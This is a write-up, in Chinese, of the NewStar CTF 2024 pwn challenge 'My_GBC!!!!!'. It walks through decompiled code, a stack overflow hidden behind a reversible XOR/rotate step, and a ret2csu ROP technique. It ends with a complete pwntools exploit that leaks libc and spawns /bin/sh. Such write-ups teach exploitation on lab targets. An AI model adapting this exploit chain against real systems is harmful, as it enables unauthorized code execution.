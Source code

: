 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# My_GBC\!\!\!\!\!

先将程序拖入 IDA 分析

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  initial(argc, argv, envp);
  write(1, "It's an encrypt machine.\nInput something: ", 0x2CuLL);
  len = read(0, buf, 0x500uLL);
  write(1, "Original: ", 0xBuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  encrypt(buf, (unsigned __int8)key, (unsigned int)len);
  write(1, "Encrypted: ", 0xCuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  return 0;
}
```

发现存在一个简单的栈溢出，并且输入的数据经过了某种加密处理，异或后左移

```C
__int64 __fastcall encrypt(__int64 a1, char a2, int a3)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i >= a3 )
      break;
    *(_BYTE *)((int)i + a1) ^= a2;
    *(_BYTE *)(a1 + (int)i) = __ROL1__(*(_BYTE *)((int)i + a1), 3);
  }
  return result;
}
```

运行程序后发现，栈溢出时，`rdx` 寄存器值为 1，而程序中能利用的函数 `read` `write` 的三参都是长度，这对我们利用十分不利，因此我们选择 ret2csu

![ret2csu](/assets/images/wp/2024/week2/my-gbc_1.png)

这是 csu 的代码片段，第一段代码能将 `r12` `r13` `r14`分别 mov 到 `rdi` `rsi` `rdx`，这样我们便能控制 `rdx`，即控制函数的三参，并且后面还有 `call [r15+rbx*8]`，能控制程序的走向；第二段代码则是一长串的 `pop`，配合上述代码，即可达到 ROP，控制程序流程

需要注意的是，call 后面有 `add rbx, 1;` `cmp rbp, rbx;` `jnz` ...，我们需要控制 `rbx = 0` `rbp = 1`

对于加密函数，异或和左移都是可逆运算，我们只需对我们输入的内容先右移后异或 `0x5A` 即可

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
def uu64(x): return u64(x.ljust(8, b'\x00'))
def s(x): return p.send(x)
def sa(x, y): return p.sendafter(x, y)
def sl(x): return p.sendline(x)
def sla(x, y): return p.sendlineafter(x, y)
def r(x): return p.recv(x)
def ru(x): return p.recvuntil(x)


k = 1
if k:
    addr = ''
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./My_GBC!!!!!')
elf = ELF('./My_GBC!!!!!')
libc = ELF('./libc.so.6')


def debug():
    gdb.attach(p, 'b *0x401399\nc\n')


def ror(val, n):
    return ((val >> n) | (val << (8 - n))) & 0xFF


def decrypt(data: bytes, key: int):
    decrypted_data = bytearray()
    for byte in data:
        byte = ror(byte, 3)
        byte ^= key
        decrypted_data.append(byte)
    return decrypted_data


def csu_1(arg1, arg2, arg3, func=0, rbx=0, rbp=1):
    r12 = arg1
    r13 = arg2
    r14 = arg3
    r15 = func
    payload = p64(0x4013AA)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    return payload


def csu_2():
    payload = p64(0x401390)
    return payload


add_rsp_8_ret = 0x401016
ret = 0x40101a
payload = b'a' * 0x18 + csu_1(1, elf.got.read, 0x100, elf.got.write) + csu_2()
payload += csu_1(0, 0x404090, 0x50, elf.got.read) + csu_2()
payload += csu_1(0, 0, 0, 0x404098) + csu_2() + p64(ret)
payload += csu_1(0x4040A0, 0, 0, 0x404090) + csu_2()
# debug()
ru(b'Input something:')
s(decrypt(payload, 90))

libc_base = uu64(ru(b'\x7f')[-6:]) - libc.sym.read
success(f"libc_base --> 0x{libc_base:x}")

payload = p64(libc_base + libc.sym.system + 0x0) + p64(add_rsp_8_ret) + b'/bin/sh\x00'
s(payload)

p.interactive()
```
